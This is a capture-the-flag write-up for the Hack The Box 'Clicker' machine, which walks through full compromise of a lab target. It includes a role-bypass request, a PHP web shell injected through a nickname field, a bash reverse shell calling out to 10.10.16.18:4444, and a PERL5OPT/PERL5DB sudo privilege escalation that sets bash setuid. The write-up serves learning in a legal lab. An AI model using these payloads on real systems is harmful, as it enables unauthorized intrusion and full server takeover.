






# Clicker Writeup
<figure></figure>

## Target IP: 10.10.11.232

Nmap Scan: 

```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -vv 10.10.11.232
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 89:d7:39:34:58:a0:ea:a1:db:c1:3d:14:ec:5d:5a:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO8nDXVOrF/vxCNHYMVULY8wShEwVH5Hy3Bs9s9o/WCwsV52AV5K8pMvcQ9E7JzxrXkUOgIV4I+8hI0iNLGXTVY=
|   256 b4:da:8d:af:65:9c:bb:f0:71:d5:13:50:ed:d8:11:30 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAjDCjag/Rh72Z4zXCLADSXbGjSPTH8LtkbgATATvbzv
80/tcp   open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://clicker.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
111/tcp  open  rpcbind syn-ack 2-4 (RPC #100000)
|_rpcinfo: ERROR: Script execution failed (use -d to debug)
2049/tcp open  nfs     syn-ack 3-4 (RPC #100003)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's Check which directories are exported via NFS

```
┌──(kali㉿kali)-[~]
└─$ /sbin/showmount --exports 10.10.11.232
Export list for 10.10.11.232:
/mnt/backups *
```

Let's mount it to a local folder

```
$ sudo mount -t nfs 10.10.11.232:/mnt/backups /mnt/
$ ll
total 2232
-rw-r--r-- 1 root root 2284115 Sep  1 16:27 clicker.htb_backup.zip
$ unzip clicker.htb_backup.zip
$ cd clicker.htb
```

## Web Enumeration

We Discover the landing URL `clicker.htb` and add it to our `/etc/hosts` file.

<figure></figure>

Since I could read the source code I realised that sending 'role/**/=Admin' allows me to bypass certain condition.

So I got admin access by sending the payload:
`GET /save_game.php?clicks=4&level=0&role/**/=Admin`

After logging out and loging back in once again. I could see the Administrator tab.

I could see a button where I could export the score in `txt, json or html`.

I was able to manipulate the file extension using burpsuite and was able to store the file as a `.php` file.

After that I looked into the source code of `save_game.php` and there was a field to enter a nickname as well

I injected the php cmd shell through the requests of the `save_game.php`

```
&nickname=<%3fphp+system($_GET['cmd'])+%3f>
```

Exported that field as php as well and was able to get some info out of it.

<figure></figure>

I wrote a normal bash script for reverse shell and injected that throught the url as well.

## User Flag

Create shell.sh:
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.18/4444 0>&1
```

Run http server:
```
┌──(kali㉿kali)-[~/Desktop/htb/clicker]
└─$ sudo python3 -m http.server 1111                    
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 1111 (http://0.0.0.0:1111/) ...
```

Add the payload for the shell in the url. And we get the reverse shell.

<figure></figure>

I was able to get private keys of jack using the `execute_query` from `/opt/manage`.

<figure></figure>

and I got user access.

<figure></figure>

## Root Flag

I checked which scripts can be run by jack.

```
-bash-5.1$ sudo -l
Matching Defaults entries for jack on clicker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```

After a little analysis, I found that this file actually calls `/usr/bin/echo` and `/usr/bin/xml_pp` which is a perl script to run.

This vulnerability is called `"perl_startup"` Priviledge Escalation.

```
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```

```
bash -p
```

And the machine has been rooted.

<figure></figure>

Thank you!! Happy Hacking :D